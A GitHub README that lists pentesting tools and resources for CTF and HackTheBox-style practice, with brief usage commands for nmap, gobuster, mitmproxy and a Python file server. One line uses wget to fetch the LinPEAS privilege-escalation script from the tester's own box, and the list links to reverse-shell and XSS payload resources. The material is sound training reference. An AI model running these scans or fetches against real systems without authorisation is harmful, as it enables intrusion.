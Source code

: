 # cow-tools

![](https://upload.wikimedia.org/wikipedia/en/thumb/9/9a/Cow_Tools_cartoon.png/220px-Cow_Tools_cartoon.png)

A collection of the pentesting tools and resources I've found and made use of over the years, and maybe some of my own!?

Many of these tools are prebuilt into Kali, and will not need to be installed.

## VMs
- [Kali VMWare](https://www.kali.org/get-kali/#kali-virtual-machines) - Easy images for VM usage. I prefer this over everything and I've frequently wiped VMs with utter disregard.

## General Resources
- [HackTricks](https://book.hacktricks.wiki/en/index.html) - My favorite general hacking wiki. Has awesome documentation for many attack vectors.
- [HackTricks Cloud](https://cloud.hacktricks.wiki/en/index.html) - Hacktricks, but for cloud! Good docs on things like CI/CD, Terraform, and Kubernetes.
- [IppSec](https://www.youtube.com/@ippsec) - Great Youtube channel with HTB writeups. Nice to look at as retros after box completion.
- [Exploit DB](https://exploit-db.com) - List of exploits and PoCs, perfect for when you find a vulnerable service.
- [OWASP Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/) - Great resource for random cheatsheets on various services/technologies.

## Recon & Discovery
- [Nmap](https://nmap.org/) - A classic and mainstay. Most useful and easiest to work with port and network scanner.
  > Very aggro scan: `$ nmap -sS -A -T 5 10.0.0.0`
  >
  > More calm scan: `$ nmap -sS 10.0.0.0`
  >
  > All ports: `$ nmap -sS 10.0.0.0 -p-`
- [Gobuster](https://github.com/OJ/gobuster) - Web app fuzzer, I get a crazy amount of use out of this one. Great for subdomain and dir enumeration.
  > Directory discovery: `$ gobuster dir --url http://site.htb --wordlist /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt`
  >
  > Subdomain/VHost discovery: `$ gobuster vhost --append-domain http://site.htb --wordlist /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt`
- [WhatWeb](https://github.com/urbanadventurer/WhatWeb) - Web app scanner, useful for finding vulnerable versions of software hosting the webapp.
- [FeroxBuster](https://github.com/epi052/feroxbuster) - Quick recursive directory fuzzer.

## Web App
- [Burp Suite](https://portswigger.net/burp) - Web app proxy and repeater for easy introspection and modification of HTTP requests.
- [JWT.io](https://jwt.io) - JWT token parsing and decoding, great for finding token injection parameters or low RSA N values to crack.
- [XSS Payload List](https://github.com/payloadbox/xss-payload-list) - Useful list of common XSS payloads.
- [MITMProxy](https://mitmproxy.org/) - Easy HTTP proxy for port forwarding a localhost webserver.
  > Simple reverse http proxy: `$ ./mitmproxy -p 9000 --mode reverse:http://localhost:8500`
- [Reverse Shell Generator](https://www.revshells.com/) - Easy way to get a shell made, has many options for style and encoding.
- [Git Dumper](https://github.com/arthaud/git-dumper) - Easily dump git repos from the web

## SQLi
- [SQLMap](https://sqlmap.org/) - Aggressive SQLi finder. Do not use this outside of CTF/OSCP/HTB.

## Scripting
- [PWNTools](https://docs.pwntools.com/en/stable/) - Python library for automating binary exploitation scripts and other CTF related tasks.

## Cryptography
- [HashCat](https://hashcat.net/wiki/doku.php?id=example_hashes) - Hash cracking tool for a variety of hashes.
- [CyberChef](https://gchq.github.io/CyberChef/) - Best online encoding and text parsing. Useful for base64, parsing certs, etc.
- [CrackStation](https://crackstation.net/) - Cached cracked passwords, easy for simple ones like SHA256 and MD5 that may have been popped in breaches. Great for HTB.
- [RSACTFTool](https://github.com/RsaCtfTool/RsaCtfTool) - RSA breaking tool, great for ciphers with weak N values.
- [Alpertron's Integer Factorization Calculator](https://www.alpertron.com.ar/ECM.HTM) - Easily factorize massive integers with elliptic curve or quadtratic sieve.

## Wordlists
- [SecLists](https://github.com/danielmiessler/SecLists) - Favorite wordlists! This has all kinds of stuff for web fuzzing, local directories, etc.
- [RockYou2021](https://github.com/ohmybahgosh/RockYou2021.txt) - Big collected wordlist featuring seclists, crackstation, and more.
- [OneRuleToRuleThemAll](https://github.com/NotSoSecure/password_cracking_rules/blob/master/OneRuleToRuleThemAll.rule) - Massive Hashcat cracking rule for special password combo attacks.

## Privelege Escalation

### OS Agnostic
- Python HTTP Server - I get a crazy ammount of use out of this to pull down files from my box.
  > Start server: `$ python3 -m http.server 80`
  >
  > Pull file: `wget http://10.10.14.7/linpeas.sh`

### Linux
- [LinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) - Privesc automation script. Easily find curious things to exploit.
- [GTFOBins](https://gtfobins.github.io/) - Easily exploitable bins to live off the land with. Good for finding SUID exploits.

### Windows
- [WinPEAS](https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md) - Windows privesc automation script. Easily find curious things to exploit.
- [LOLBas](https://lolbas-project.github.io/) - Live off the land with local Windows scripts to get priveleged.

## Reverse Engineering
- [jd-gui](https://java-decompiler.github.io/) - Java decompilation. Perfect for .class files.
- [dnSpy](https://github.com/dnSpy/dnSpy) - Windows dotnet, c# decompilation tool. Nice for DLL files too.
- [Ghidra](https://ghidra-sre.org/) - NSA made disassembly tool. Works well for C, but has a hard time with Rust.
- [Binary Ninja](https://binary.ninja/) - Web based disassembler, sometimes can get results that are hard to find in Ghidra. Much better for rust.

